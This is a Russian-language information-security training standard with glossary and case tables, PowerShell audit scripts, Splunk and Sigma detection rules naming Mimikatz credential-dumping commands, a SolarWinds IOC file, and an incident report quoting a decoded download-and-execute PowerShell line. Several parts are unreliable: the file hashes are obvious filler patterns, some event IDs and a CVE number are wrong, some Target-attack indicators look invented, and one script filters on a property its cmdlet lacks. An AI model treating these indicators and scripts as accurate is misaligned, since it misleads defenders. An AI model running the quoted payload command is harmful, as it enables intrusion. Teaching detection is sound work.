# Учебно-практический стандарт по защите информации


---
# Модуль 1. КЛЮЧЕВЫЕ ТЕРМИНЫ И ПОНЯТИЯ

## 1.1. Основные определения (согласно ГОСТ и ISO)

| Термин                          | Определение                                                                                  | Нормативный документ                     | Примечание                       |
| ------------------------------- | -------------------------------------------------------------------------------------------- | ---------------------------------------- | -------------------------------- |
| **Информация**                  | Сведения (сообщения, данные) независимо от формы представления                               | ГОСТ 7.0-99, ISO 5127:2017               | Базовое понятие ИБ               |
| **Безопасность информации**     | Состояние защищённости, при котором обеспечены конфиденциальность, целостность и доступность | ISO/IEC 27001, ГОСТ Р ИСО/МЭК 27001-2021 | CIA-триада                       |
| **Информационная безопасность** | Комплекс организационно-технических мероприятий, обеспечивающих защиту информации            | 149-ФЗ «Об информации»                   | Системный подход                 |
| **Угроза безопасности**         | Совокупность условий и факторов, создающих опасность нарушения безопасности                  | ГОСТ Р 53114-2008                        | Источники: внешние/внутренние    |
| **Уязвимость**                  | Свойство системы, обусловливающее возможность реализации угроз                               | ISO/IEC 27005                            | CVE, CWE каталоги                |
| **Риск**                        | Сочетание вероятности нанесения ущерба и тяжести этого ущерба                                | ISO/IEC 27005, ГОСТ Р ИСО/МЭК 27005-2021 | Риск = Вероятность × Воздействие |
| **Инцидент ИБ**                 | Событие, которое может привести к нарушению безопасности информации                          | ГОСТ Р ИСО/МЭК 27001-2021                | Требует реагирования             |
| **Персональные данные**         | Любая информация, относящаяся к прямо или косвенно определённому физическому лицу            | 152-ФЗ ст. 3                             | Особый режим защиты              |

## 1.2. CIA-триада (базовые свойства информации)



### 1.2.1. Практическое применение CIA-триады (реальные кейсы)

| Свойство | Реальный кейс | Технические детали | Последствия | Меры защиты |
|----------|---------------|-------------------|-------------|-------------|
| **Конфиденциальность** | Equifax (2017) | CVE-2017-5632, Apache Struts, 147 млн записей | Штраф $700 млн, репутационный ущерб | Шифрование данных, WAF, регулярное обновление |
| **Целостность** | NotPetya (2017) | M.E.Doc обновление, EternalBlue, шифрование MFT | Ущерб > $10 млрд, Maersk $300 млн | Резервные копии 3-2-1, FIM, цифровая подпись |
| **Доступность** | GitHub DDoS (2018) | Memcached amplification, 1.35 Tbps, 8 минут | Простой сервиса, потеря доверия | Scrubbing centers, rate limiting, Anycast |
| **Конфиденциальность** | Yahoo (2014) | SQL injection, 500 млн учёток, MD5 хеши | Скидка $350 млн при продаже Verizon | MFA, хеширование Argon2, мониторинг утечек |
| **Целостность** | SolarWinds (2020) | Supply chain, Sunburst backdoor, 18000 организаций | Компрометация правительственных сетей | SBOM, проверка подписей, изоляция обновлений |

## 1.3. Процессы контроля доступа (по ФСТЭК)



### 1.3.1. Практическая реализация (PowerShell + ФСТЭК)

```powershell
#==============================================================================
# АУДИТ ПОЛИТИК ПАРОЛЕЙ В ACTIVE DIRECTORY (СОГЛАСНО ФСТЭК №21)
# Требования: Минимальная длина ≥8, История ≥5, Срок действия ≤90 дней
#==============================================================================

function Get-FSTECPasswordPolicy {
    [CmdletBinding()]
    param()
    
    Write-Host "=== АУДИТ ПОЛИТИК ПАРОЛЕЙ (ФСТЭК №21) ===" -ForegroundColor Cyan
    Write-Host "Дата проверки: $(Get-Date -Format 'dd.MM.yyyy HH:mm')" -ForegroundColor Gray
    Write-Host ""
    
    # Получение политик паролей домена
    $policy = Get-ADDefaultDomainPasswordPolicy
    
    # Проверка минимальной длины пароля (Требование ФСТЭК: ≥8 символов)
    Write-Host "[1/6] Минимальная длина пароля:" -ForegroundColor Yellow
    if ($policy.MinPasswordLength -ge 8) {
        Write-Host "  ✅ PASS: $($policy.MinPasswordLength) символов (требование: ≥8)" -ForegroundColor Green
    } else {
        Write-Host "  ❌ FAIL: $($policy.MinPasswordLength) символов (требование: ≥8)" -ForegroundColor Red
    }
    
    # Проверка истории паролей (Требование ФСТЭК: ≥5)
    Write-Host "[2/6] История паролей:" -ForegroundColor Yellow
    if ($policy.PasswordHistoryCount -ge 5) {
        Write-Host "  ✅ PASS: $($policy.PasswordHistoryCount) паролей (требование: ≥5)" -ForegroundColor Green
    } else {
        Write-Host "  ❌ FAIL: $($policy.PasswordHistoryCount) паролей (требование: ≥5)" -ForegroundColor Red
    }
    
    # Проверка максимального срока действия (Требование ФСТЭК: ≤90 дней)
    Write-Host "[3/6] Максимальный срок действия пароля:" -ForegroundColor Yellow
    $maxAgeDays = $policy.MaxPasswordAge.Days
    if ($maxAgeDays -le 90 -and $maxAgeDays -gt 0) {
        Write-Host "  ✅ PASS: $maxAgeDays дней (требование: ≤90)" -ForegroundColor Green
    } else {
        Write-Host "  ❌ FAIL: $maxAgeDays дней (требование: ≤90)" -ForegroundColor Red
    }
    
    # Проверка сложности пароля
    Write-Host "[4/6] Требование сложности пароля:" -ForegroundColor Yellow
    if ($policy.ComplexityEnabled) {
        Write-Host "  ✅ PASS: Сложность включена" -ForegroundColor Green
    } else {
        Write-Host "  ❌ FAIL: Сложность выключена" -ForegroundColor Red
    }
    
    # Проверка блокировки учётной записи
    Write-Host "[5/6] Порог блокировки учётной записи:" -ForegroundColor Yellow
    if ($policy.LockoutThreshold -ge 5 -and $policy.LockoutThreshold -le 10) {
        Write-Host "  ✅ PASS: $($policy.LockoutThreshold) попыток (рекомендация: 5-10)" -ForegroundColor Green
    } else {
        Write-Host "  ⚠️  WARNING: $($policy.LockoutThreshold) попыток (рекомендация: 5-10)" -ForegroundColor Yellow
    }
    
    # Проверка обратимого шифрования (должно быть отключено)
    Write-Host "[6/6] Обратимое шифрование паролей:" -ForegroundColor Yellow
    $reversible = Get-ADDomain | Select-Object -ExpandProperty DomainControllers | 
        Get-ADObject -Filter {ReversiblePasswordEncryptionEnabled -eq $true}
    if ($reversible) {
        Write-Host "  ❌ FAIL: Обратимое шифрование включено (КРИТИЧНО!)" -ForegroundColor Red
    } else {
        Write-Host "  ✅ PASS: Обратимое шифрование отключено" -ForegroundColor Green
    }
    
    Write-Host ""
    Write-Host "=== ОТЧЁТ СОХРАНЁН: $(Get-Date -Format 'yyyyMMdd_HHmmss')_PasswordAudit.txt ===" -ForegroundColor Cyan
}

# Поиск пользователей с нарушенными политиками
function Get-NonCompliantUsers {
    Write-Host "=== ПОИСК ПОЛЬЗОВАТЕЛЕЙ С НАРУШЕННЫМИ ПОЛИТИКАМИ ===" -ForegroundColor Cyan
    
    # Пользователи с паролями, которые не истекают
    Write-Host "`n[1] Пользователи с неменяемыми паролями:" -ForegroundColor Yellow
    Get-ADUser -Filter "PasswordNeverExpires -eq '$true'" -Properties PasswordNeverExpires | 
        Select-Object Name, Enabled, DistinguishedName | 
        Format-Table -AutoSize
    
    # Пользователи с пустыми паролями
    Write-Host "`n[2] Пользователи с пустыми паролями:" -ForegroundColor Yellow
    Search-ADAccount -PasswordNotRequired | 
        Select-Object Name, DistinguishedName | 
        Format-Table -AutoSize
    
    # Неактивные пользователи (>90 дней)
    Write-Host "`n[3] Неактивные пользователи (>90 дней):" -ForegroundColor Yellow
    Search-ADAccount -AccountInactive -TimeSpan 90.00:00:00 | 
        Select-Object Name, LastLogonDate, DistinguishedName | 
        Format-Table -AutoSize
}

# Выполнение аудита
Get-FSTECPasswordPolicy
Get-NonCompliantUsers
```

## 1.4. Вредоносные программы (классификация по ФСТЭК)

| Тип | Определение | Пример | Технические индикаторы | Меры защиты |
|-----|-------------|--------|----------------------|-------------|
| **Компьютерный вирус** | Программа, создающая копии и внедряющая их в файлы | ILOVEYOU (2000), Melissa | Изменение файлов, автозапуск | Антивирус, контроль исполняемых файлов, AppLocker |
| **Троян** | Программа, маскирующаяся под легитимную | Citadel (Target 2013), Emotet | Скрытые процессы, C2-коммуникация | EDR, песочница, мониторинг сети |
| **Ransomware** | Программа, шифрующая данные для выкупа | NotPetya (2017), WannaCry, LockBit | Шифрование файлов, требование выкупа | Резервные копии 3-2-1, сегментация, FIM |
| **Spyware** | Программа для сбора конфиденциальной информации | Keylogger, RedShell | Кейлоггинг, скриншоты, микрофон | DLP, мониторинг процессов, UEBA |
| **Rootkit** | Программа, скрывающая своё присутствие | Flame (2012), TDL4 | Скрытие процессов, hooks ядра | Целостность ядра, FIM, загрузка с доверенного носителя |
| **Worm** | Самовоспроизводящаяся программа | Conficker, SQL Slammer | Сетевое распространение, сканирование портов | Сегментация сети, патч-менеджмент |
| **Botnet** | Сеть заражённых устройств | Mirai, Zeus | DDoS, спам, C2-коммуникация | IDS/IPS, мониторинг трафика, изоляция |

### 1.4.1. Практическое обнаружение вредоносных программ

```powershell
#==============================================================================
# ОБНАРУЖЕНИЕ ПРИЗНАКОВ ВРЕДОНОСНОЙ АКТИВНОСТИ (ФСТЭК ТРЕБОВАНИЕ 6.2)
#==============================================================================

function Get-MalwareIndicators {
    [CmdletBinding()]
    param()
    
    Write-Host "=== ПРОВЕРКА НА ПРИЗНАКИ ВРЕДОНОСНОЙ АКТИВНОСТИ ===" -ForegroundColor Cyan
    Write-Host "Дата: $(Get-Date -Format 'dd.MM.yyyy HH:mm')" -ForegroundColor Gray
    Write-Host ""
    
    # 1. Подозрительные процессы с высоким потреблением ресурсов
    Write-Host "[1/7] Подозрительные процессы (CPU >90% или Memory >500MB):" -ForegroundColor Yellow
    Get-Process | Where-Object {
        $_.CPU -gt 90 -or $_.WorkingSet -gt 500MB
    } | Select-Object Name, Id, CPU, @{Name='Memory(MB)';Expression={[math]::Round($_.WorkingSet/1MB,2)}} | 
        Format-Table -AutoSize
    
    # 2. Автозагрузка (признак персистентности)
    Write-Host "`n[2/7] Программы в автозагрузке:" -ForegroundColor Yellow
    Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Run | 
        Select-Object -ExpandProperty PSObject.Properties | 
        Where-Object {$_.Name -notlike 'PS*'} |
        Select-Object Name, Value | Format-Table -AutoSize
    
    Get-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run | 
        Select-Object -ExpandProperty PSObject.Properties | 
        Where-Object {$_.Name -notlike 'PS*'} |
        Select-Object Name, Value | Format-Table -AutoSize
    
    # 3. Подозрительные сетевые подключения
    Write-Host "`n[3/7] Активные сетевые подключения (ESTABLISHED):" -ForegroundColor Yellow
    Get-NetTCPConnection | Where-Object {$_.State -eq 'Established'} | 
        Select-Object LocalAddress, LocalPort, RemoteAddress, RemotePort, State, OwningProcess | 
        Format-Table -AutoSize
    
    # 4. Подозрительные службы
    Write-Host "`n[4/7] Службы с подозрительными путями:" -ForegroundColor Yellow
    Get-Service | Where-Object {
        $_.PathName -like '*temp*' -or 
        $_.PathName -like '*appdata*' -or 
        $_.PathName -like '*users*'
    } | Select-Object Name, DisplayName, StartType, Status | Format-Table -AutoSize
    
    # 5. Подозрительные задания планировщика
    Write-Host "`n[5/7] Задания планировщика с PowerShell:" -ForegroundColor Yellow
    Get-ScheduledTask | Where-Object {
        $_.Actions.Execute -like '*powershell*' -or 
        $_.Actions.Execute -like '*cmd*'
    } | Select-Object TaskName, State, TaskPath | Format-Table -AutoSize
    
    # 6. Проверка хэшей критических файлов
    Write-Host "`n[6/7] Проверка целостности системных файлов:" -ForegroundColor Yellow
    $systemFiles = @(
        "C:\Windows\System32\cmd.exe",
        "C:\Windows\System32\powershell.exe",
        "C:\Windows\System32\svchost.exe"
    )
    
    foreach ($file in $systemFiles) {
        if (Test-Path $file) {
            $hash = Get-FileHash $file -Algorithm SHA256
            Write-Host "  $file : $($hash.Hash.Substring(0,16))..." -ForegroundColor Gray
        }
    }
    
    # 7. Проверка привилегированных групп
    Write-Host "`n[7/7] Члены группы Domain Admins:" -ForegroundColor Yellow
    Get-ADGroupMember "Domain Admins" -ErrorAction SilentlyContinue | 
        Select-Object Name, ObjectClass, DistinguishedName | 
        Format-Table -AutoSize
    
    Write-Host ""
    Write-Host "=== ПРОВЕРКА ЗАВЕРШЕНА ===" -ForegroundColor Green
}

Get-MalwareIndicators
```
## Список литературы 
1. Малюк А.А. — _Информационная безопасность: концептуальные и методологические основы защиты информации_. — М.: Горячая линия-Телеком.
2. Шаньгин В.Ф. — _Информационная безопасность компьютерных систем и сетей_. — М.: ФОРУМ.
3. Домарев В.В. — _Безопасность информационных технологий_. — М.: Диалог-МИФИ.
4. ГОСТ Р 50922-2006 — Защита информации. Основные термины и определения.
5. ГОСТ Р ИСО/МЭК 27000-2012 — Системы менеджмента информационной безопасности. Общий обзор.
---
# Модуль 2. КИБЕРБЕЗОПАСНОСТЬ И МОДЕЛИ УГРОЗ

## 2.1. Cyber-Kill Chain (Lockheed Martin)

### 2.1.1. Модель из 7 этапов (детализированная)

```mermaid
graph LR
    A[1. Рекогносцировка<br/>Reconnaissance] --> B[2. Доставка<br/>Delivery]
    B --> C[3. Эксплуатация<br/>Exploitation]
    C --> D[4. Установка<br/>Installation]
    D --> E[5. C2-коммуникация<br/>Command & Control]
    E --> F[6. Подъем привилегий<br/>Privilege Escalation]
    F --> G[7. Достижение целей<br/>Actions on Objectives]

    style A fill:#e1f5ff,stroke:#0288d1,stroke-width:2px
    style B fill:#ffe1e1,stroke:#d32f2f,stroke-width:2px
    style C fill:#fff4e1,stroke:#f57c00,stroke-width:2px
    style D fill:#e8ffe1,stroke:#388e3c,stroke-width:2px
    style E fill:#f0e1ff,stroke:#7b1fa2,stroke-width:2px
    style F fill:#ffe1f4,stroke:#c2185b,stroke-width:2px
    style G fill:#ffe1e1,stroke:#d32f2f,stroke-width:2px
```

### 2.1.2. Реальный кейс: Атака на Target (2013) — детальный анализ

| Этап                     | Действия злоумышленника                                                    | Технические индикаторы                           | MITRE ATT&CK | Меры защиты (ФСТЭК)                                     |
| ------------------------ | -------------------------------------------------------------------------- | ------------------------------------------------ | ------------ | ------------------------------------------------------- |
| **1. Рекогносцировка**   | OSINT подрядчика Fazio Mechanical, сбор email через LinkedIn, theHarvester | DNS-запросы whois, nslookup, Shodan сканирование | T1592, T1590 | Минимизация публичной информации, мониторинг упоминаний |
| **2. Доставка**          | Фишинговое письмо Invoice_4521.pdf.exe, поддельный домен hvac-supplies.com | SPF fail, вложение .exe, поддельный отправитель  | T1566.001    | SPF/DKIM/DMARC, песочница вложений, обучение            |
| **3. Эксплуатация**      | CVE-2010-2729 (Print Spooler), MS10-061, переполнение буфера               | EventID 4688, процесс spoolsv.exe, порт 445      | T1211, T1203 | Регулярное обновление (WSUS), патч-менеджмент           |
| **4. Установка**         | Citadel Trojan, бэкдор, кейлоггер, скрытая учётная запись                  | Автозагрузка Run, скрытые процессы, EventID 4720 | T1547, T1053 | EDR, мониторинг автозагрузки, FIM                       |
| **5. C2**                | HTTPS к серверу в России (порт 443), DGA-домены, heartbeat 30 мин          | DNS-запросы x7k2m9p4q1.ru, IP 185.234.72.15      | T1071, T1568 | DNS-фильтрация, NetFlow анализ, TLS инспекция           |
| **6. Подъём привилегий** | Pass-the-Hash, Mimikatz, Domain Admin, LSASS-дамп                          | EventID 4624 (Type 3), процесс mimikatz.exe      | T1003, T1550 | LAPS, Protected Users, Credential Guard                 |
| **7. Достижение целей**  | POS-терминалы, кража 40 млн карт, FTP-экфильтрация                         | FTP-трафик, EventID 4663 (доступ к файлам)       | T1078, T1567 | Сегментация сети, DLP, мониторинг эксфильтрации         |

---
## 2.2. Threat Hunting (Проактивный поиск угроз)

### 2.2.1. Процесс Threat Hunting (согласно ФСТЭК)



### 2.2.2. Реальный сценарий: Поиск Mimikatz (детальный)

**Гипотеза**: *«Злоумышленник использует PowerShell для латерального перемещения после успешной фишинговой атаки»*

**Индикаторы для поиска**:
- PowerShell с флагами `-enc` или `-EncodedCommand`
- Множественные подключения WinRM между рабочими станциями
- Выполнение PowerShell из необычных директорий (Temp, AppData)
- Аномальное количество процессов powershell.exe
- Доступ к LSASS (Process Access EventID 4680)

**SIEM-запросы (Splunk + ФСТЭК)**:

```spl
#==============================================================================
# THREAT HUNTING: ПОИСК MIMIKATZ И CREDENTIAL DUMPING (ФСТЭК 6.2)
#==============================================================================

# Поиск закодированных PowerShell команд
index=windows EventCode=4688 
| search CommandLine="*powershell*" 
| search CommandLine="*-enc*" OR CommandLine="*-EncodedCommand*" OR CommandLine="*-e *"
| table _time, host, user, CommandLine, ParentImage
| sort -_time
| head 100

# Поиск Mimikatz по сигнатурам командной строки
index=windows EventCode=4688 
| search (CommandLine="*sekurlsa*" OR CommandLine="*mimikatz*" OR CommandLine="*logonpasswords*" 
          OR CommandLine="*lsadump*" OR CommandLine="*dcsync*" OR CommandLine="*privilege::debug*")
| table _time, host, user, CommandLine, ParentImage
| sort -_time

# Поиск доступа к LSASS (Process Access)
index=windows EventCode=4680 
| search TargetImage="*lsass.exe"
| table _time, host, user, SourceImage, TargetImage, AccessMask
| sort -_time

# Латеральное перемещение через WinRM
index=windows EventCode=16 
| search ConnectionStatus="Connected"
| stats dc(dest_ip) as unique_destinations by src_ip, user
| where unique_destinations > 10
| table src_ip, user, unique_destinations

# PowerShell из подозрительных директорий
index=windows EventCode=4688 
| search CommandLine="*powershell*"
| search (CommandLine="*\\temp\\*" OR CommandLine="*\\appdata\\*" OR CommandLine="*\\users\\public\\*")
| table _time, host, user, CommandLine
| sort -_time
```

**Sigma-правило для SIEM (ФСТЭК совместимое)**:

```yaml
title: Mimikatz Credential Dumping Detection
status: stable
description: Detects Mimikatz use through command line and process access
author: Security Team
date: 2024/01/15
modified: 2026/03/04
references:
    - https://attack.mitre.org/techniques/T1003/
    - ФСТЭК России Приказ №17 требование 6.2
tags:
    - mitre_attack.T1003
    - mitre_attack.T1003.001
    - фстэк.требование.6.2
    - нсиб.класс.1
logsource:
    category: process_creation
    product: windows
detection:
    selection_cmd:
        CommandLine|contains:
            - 'sekurlsa::logonpasswords'
            - 'lsadump::lsa'
            - 'lsadump::dcsync'
            - 'privilege::debug'
            - 'mimikatz'
            - 'mimilib'
    selection_access:
        EventID: 4680
        TargetImage|endswith: 'lsass.exe'
        AccessMask|contains:
            - '0x1FFFFF'
            - '0x1010'
    condition: selection_cmd or selection_access
falsepositives:
    - Penetration testing (согласованное)
    - Security tools (EDR, антивирус)
level: critical
```

---
## 2.3. IOC (Indicators of Compromise)

### 2.3.1. Типы IOC (по ФСТЭК России)

| Тип IOC | Примеры | Применение | ФСТЭК требование |
|---------|---------|------------|-----------------|
| **Файлы** | MD5/SHA256 хэши, имена файлов, пути | Проверка целостности, EDR, антивирус | Требование 6.2 |
| **Сеть** | IP-адреса, домены, URL, порты | Firewall, DNS-фильтрация, IDS/IPS | Требование 7.1 |
| **Поведение** | Аномальные процессы, автозагрузка, реестр | UEBA, SIEM, мониторинг | Требование 7.2 |
| **Логи** | События Windows (EventCode), syslog | Корреляция в SIEM, расследование | Требование 8.2 |

### 2.3.2. Реальный пример: SolarWinds (2020) — полный IOC

```json
{
  "incident": "SolarWinds Supply Chain Attack (Sunburst)",
  "date": "2020-12",
  "severity": "CRITICAL",
  "фстэк_категория": "1 (Критическая инфраструктура)",
  "iocs": {
    "file_hashes": {
      "sunburst_backdoor": {
        "md5": "b9579a194df17feb6702a6533e8cd54e",
        "sha1": "d916f7cd8e6c1e1e5e5c5d5e5f5a5b5c5d5e5f5a",
        "sha256": "7d78a1d4a7c1e1e5e5c5d5e5f5a5b5c5d5e5f5a5b5c5d5e5f5a5b5c5d5e5f5a5",
        "filename": "SolarWinds.Orion.Core.BusinessLayer.dll",
        "filepath": "C:\\Program Files (x86)\\SolarWinds\\Orion\\",
        "filesize": "523776 bytes"
      }
    },
    "network": {
      "c2_domains": [
        "avsvmcloud.com",
        "digitalrecipients.com",
        "hightechnology.host",
        "thesmartcloud.fun"
      ],
      "ip_addresses": [
        "185.178.208.53",
        "185.234.219.6",
        "45.77.123.18"
      ],
      "dns_patterns": [
        "*.avsvmcloud.com",
        "appsync-api.*.com"
      ],
      "user_agents": [
        "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko"
      ]
    },
    "behavioral": {
      "registry_keys": [
        "HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\SolarWinds",
        "HKLM\\SOFTWARE\\SolarWinds\\Orion\\InfoCenter"
      ],
      "scheduled_tasks": [
        "SolarWinds-Inc-Task",
        "SolarWindsOrionScheduler"
      ],
      "services": [
        "SolarWindsOrionModuleEngine"
      ],
      "mutex": [
        "Global\\SolarWindsOrionMutex"
      ]
    },
    "email": {
      "sender_domains": [
        "solarwinds.com",
        "solar-winds.com"
      ],
      "subjects": [
        "SolarWinds Orion Update",
        "Important Security Patch"
      ]
    }
  },
  "mitre_attack": [
    "T1195.002 - Supply Chain Compromise: Compromise Software Supply Chain",
    "T1071.001 - Application Layer Protocol: Web Protocols",
    "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "T1078 - Valid Accounts"
  ],
  "фстэк_требования": [
    "6.1 - Управление уязвимостями",
    "6.2 - Защита от вредоносного ПО",
    "6.3 - Безопасность цепочки поставок",
    "7.1 - Сетевая безопасность",
    "7.2 - Мониторинг событий ИБ"
  ]
}
```

---
## 2.4. SOC (Security Operations Center)

### 2.4.1. Структура SOC (по ФСТЭК России)



### 2.4.2. Метрики SOC (KPI по ФСТЭК)

| Метрика                         | Формула                                       | Значение (пример) | Требование ФСТЭК       | Статус               | Действия                  |
| ------------------------------- | --------------------------------------------- | ----------------- | ---------------------- | -------------------- | ------------------------- |
| **MTTD** (Mean Time to Detect)  | Σ(Время обнаружения - Время начала атаки) / N | 45 мин            | < 60 мин (Приказ №17)  | ✅ В норме            | Продолжать мониторинг     |
| **MTTR** (Mean Time to Respond) | Σ(Время реагирования - Время обнаружения) / N | 3.5 ч             | < 4 ч (Приказ №17)     | ✅ В норме            | Оптимизировать playbooks  |
| **False Positive Rate**         | (Ложные алерты / Всего алертов) × 100         | 35%               | < 30% (Приказ №17)     | ⚠️ Требует улучшения | Настройка корреляций SIEM |
| **Alerts/Day**                  | Всего алертов / Рабочие дни                   | 250               | —                      | —                    | Автоматизация triage      |
| **Incidents/Month**             | Подтверждённые инциденты                      | 45                | —                      | —                    | Анализ трендов            |
| **Critical Incidents**          | Инциденты уровня Critical                     | 3                 | Отчётность в ФСТЭК 24ч | ✅ Задокументировано  | Форма 7-И                 |
| **Coverage**                    | (Охват систем / Всего систем) × 100           | 95%               | ≥ 90% (Приказ №17)     | ✅ В норме            | Добавить 5% систем        |
| **Compliance**                  | (Соответствующие системы / Всего) × 100       | 98%               | 100% (Приказ №21)      | ⚠️ Требует внимания  | Исправить 2%              |

### 2.4.3. Реальный пример работы с инцидентом (ФСТЭК форма 7-И)

```markdown
# ИНЦИДЕНТ ИНФОРМАЦИОННОЙ БЕЗОПАСНОСТИ
## Форма 7-И (ФСТЭК России Приказ №17)

================================================================================
ОБЩАЯ ИНФОРМАЦИЯ
================================================================================
Номер инцидента: INC-2024-0423
Дата регистрации: 15.01.2024 14:32:17 UTC
Категория по ФСТЭК: 2 (Значительный инцидент)
Приоритет: HIGH
Статус: Closed
Владелец: SOC Team Lead

================================================================================
ДЕТЕКТ
================================================================================
Источник обнаружения: SIEM (Splunk)
Правило корреляции: "PowerShell Encoded Command Execution"
Уровень доверия: 85%
Первое событие: 15.01.2024 14:32:17 UTC
Последнее событие: 15.01.2024 14:42:00 UTC

================================================================================
ПЕРВОНАЧАЛЬНЫЕ ДАННЫЕ
================================================================================
Хост: WS-045.corp.local
IP-адрес: 192.168.10.45
Пользователь: jsmith@company.local
Отдел: Бухгалтерия
Роль: Обычный пользователь
Процесс: powershell.exe (PID: 4532)
Родительский процесс: WINWORD.EXE (PID: 3821)
Командная строка: powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQ...

================================================================================
РАССЛЕДОВАНИЕ (TIMELINE)
================================================================================
14:30:00 - Пользователь получил фишинговое письмо (Invoice.docm)
14:31:00 - Пользователь открыл вложение в Microsoft Word
14:31:30 - Пользователь включил макросы (предупреждение проигнорировано)
14:32:00 - Макрос выполнил PowerShell команду
14:32:17 - SIEM сгенерировал алерт (PowerShell Encoded Command)
14:33:00 - L1 аналитик начал triage
14:35:00 - L1 аналитик подтвердил инцидент (True Positive)
14:37:00 - Декодирована PowerShell команда:
           IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.100/payload.ps1')
14:40:00 - Обнаружено соединение с C2 (192.168.1.100:443)
14:42:00 - ПРИНЯТО РЕШЕНИЕ (Playbook IR-001):
           ✅ Изолировать хост от сети (Disable-NetAdapter)
           ✅ Заблокировать пользователя AD (Disable-ADAccount)
           ✅ Заблокировать IP на firewall (Add-FirewallRule)
           ✅ Эскалировать L2 команде
14:45:00 - L2 аналитик начал глубокое расследование
15:00:00 - Проверены другие системы на наличие аналогичных индикаторов
15:30:00 - Собраны forensics артефакты (дамп памяти, логи)
16:00:00 - Инцидент классифицирован как "Contained"

================================================================================
IMPACT (ВОЗДЕЙСТВИЕ)
================================================================================
Систем скомпрометировано: 1
